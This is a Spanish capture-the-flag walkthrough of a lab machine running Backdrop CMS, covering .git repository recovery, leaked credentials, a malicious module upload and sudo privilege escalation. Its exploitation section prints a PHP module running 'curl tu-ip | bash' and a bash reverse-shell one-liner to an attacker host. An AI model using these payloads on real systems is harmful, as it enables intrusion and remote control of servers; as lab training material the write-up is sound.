



La máquina explota varias debilidades comunes en entornos web y de servidores: exposición de repositorios `.git`, divulgación de credenciales sensibles, panel de administración accesible, subida de archivos maliciosos en un CMS vulnerable, reutilización de contraseñas y mala configuración de permisos Sudo que permite la ejecución de binarios privilegiados.

## Enumeración

Inicio mi etapa de enumeración escaneando los puertos con nmap; se detectan abiertos el 80 (HTTP) y 22 (SSH). Esto indica que tenemos una página web corriendo y un puerto SSH que, si conseguimos credenciales, podremos utilizar para acceder. Como procedimiento habitual, ejecutamos los scripts básicos de nmap.

#### Comando para enumerar posibles scripts en nmap

```bash
nmap -sC -p22,80 IP
```


## Reconocimiento

Hemos detectado que el archivo `.git` está expuesto debido a una mala configuración. Haciendo uso de la herramienta [GitHack](https://github.com/lijiejie/GitHack), podemos automatizar la restauración de dicho repositorio.

```bash
python3 GitHack.py IP/.git
```



Dentro de todos estos archivos, el que más me llamó la atención es `settings.php`, así que procedo a revisarlo y me encuentro con credenciales expuestas de una base de datos:


Dentro del servicio web intento iniciar sesión como root, pero es imposible. Antes de hacer un ataque de fuerza bruta para probar nombres comunes, realizo una enumeración de posibles correos electrónicos filtrados:

```bash
grep -r '\.htb'
```

Dentro del directorio `files` encontramos un archivo que contenía el correo `tiffany@dog.htb`. Utilizando la credencial obtenida previamente, logramos iniciar sesión y acceder al dashboard de administración.

## Explotación

Tras pasar un tiempo explorando el servicio web, descubrí un panel que listaba varios usuarios. Intenté conectarme vía SSH con estos, pero fue en vano. Sin embargo, vi que podía instalar módulos, así que empecé a investigar cómo funcionaban los módulos en Backdrop CMS.  

Me descargué un ZIP que contiene la página oficial de [ejemplos](https://backdropcms.org/project/examples) y, tras analizarlos, descubrí que el directorio `page_example` contenía un archivo PHP importante: `page_example.module`. Eliminé su contenido y lo reemplacé por:

```php
<?php
    system('curl tu-ip | bash');
?>
```

Lo comprimí, ya que solo se admitían archivos `.tar.gz`, y al intentar instalarlo apareció un error:


Esto se soluciona brevemente volviendo al directorio donde teníamos los ejemplos y añadiendo `type = module` al archivo `page_example.info`. Con esto, la instalación debería funcionar.

Antes de terminar de instalarlo, montamos un servidor en Python que tenga un `index.html` con el oneliner de bash:

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/tu-ip/port 0>&1"
```

Nos ponemos en escucha con NetCat por el puerto especificado y completamos la instalación de nuestro módulo. Esto debería otorgar una reverse shell con el usuario `www-data`. Luego, enumeré los usuarios presentes en la máquina:


Reciclando las credenciales obtenidas al inicio, conseguí iniciar sesión como el usuario `jhoncusack`, quien posee la flag. Ya estando como `jhoncusack`, realicé un reconocimiento de rutina y observé que todos los usuarios tienen permisos para ejecutar el binario `/usr/local/bin/bee`, lo cual es crítico:


Para escalar privilegios, aproveché dicho binario, ya que era evidente que permitía la ejecución arbitraria de comandos mediante `eval`:


Para que esto funcione, solo es necesario especificar una ruta en la cual `root` esté siendo utilizada:



# FIN
